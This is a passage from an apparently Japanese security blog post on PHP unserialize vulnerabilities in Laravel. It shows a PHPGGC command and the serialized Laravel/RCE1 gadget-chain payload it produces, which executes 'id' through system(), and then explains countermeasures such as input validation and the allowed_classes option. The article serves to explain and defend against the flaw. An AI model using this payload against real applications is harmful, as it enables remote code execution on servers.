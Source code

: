 ## PHPGGC（PHP Generic Gadget Chains）

　本記事では PendingBroadcastクラス と Generatorクラス を組み合わせて攻撃を実現することができますが、この攻撃方法（確認するために用いたシリアライズ文字列）だと他のフレームワークで確認することはできません。両クラスを参照できる環境下でのみ確認することができます。  

　別のフレームワークで本脆弱性を確認する場合、条件に合致するクラスを探さなくてはならないと思われますが、フレームワーク毎にPoC（Proof of Concept）を生成してくれる「PHPGGC」というツールが存在しています。

[https://github.com/ambionics/phpggc:embed:cite]


#### PoCを出力する

　「-s」オプションすると Null文字(%00) が表示されるようになります。  

<div class="md-code" style="width:100%">
```
$ ./phpggc -s Laravel/RCE1 system 'id'
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events"%3BO:15:"Faker\Generator":1:{s:13:"%00*%00formatters"%3Ba:1:{s:8:"dispatch"%3Bs:6:"system"%3B}}s:8:"%00*%00event"%3Bs:2:"id"%3B}
```
</div>

## 対策

### `unserialize`関数に渡す値はバリデーションを行う

　外部から渡された値の内容はしっかりとチェックしましょう。（当然！）

### `allowed_classes`オプションの付与（※非推奨な対策）  

　PHP 7.0.0 から`unserialize`関数のオプションに`allowed_classes`オプションを付与することで、外部から渡された値を基にオブジェクトが生成されなくすることができます。  
しかし、ドキュメント上ではこの方法での対策は推奨していません。バリデーションをしっかりやりましょう。  

　PHP 7.0.0 以前のバージョンで動作させる場合に、このオプションが有効にならないからだと考えられます。  

<div class="md-code" style="width:100%">
```php
<?php
// 省略時と同じ動作
unserialize($serializedInfo, ['allowed_classes' => true]);

// 外部から渡された値を基にオブジェクトが生成されず、「__PHP_Incomplete_Class」オブジェクトが生成される。
unserialize($serializedInfo, ['allowed_classes' => false]);
/*出力 =>
object(__PHP_Incomplete_Class)#266 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(40) "Illuminate\Broadcasting\PendingBroadcast"
  ["events":protected]=>
  object(__PHP_Incomplete_Class)#267 (2) {
    ["__PHP_Incomplete_Class_Name"]=>
    string(15) "Faker\Generator"
    ["formatters":protected]=>
    array(1) {
      ["dispatch"]=>
      string(6) "system"
    }
  }
  ["event":protected]=>
  string(2) "id"
*/

// 配列で指定されたクラスのオブジェクトは生成する。今回の攻撃は成功する。
unserialize($serializedInfo, ['allowed_classes' => ['Illuminate\Broadcasting\PendingBroadcast', 'Faker\Generator']]);
```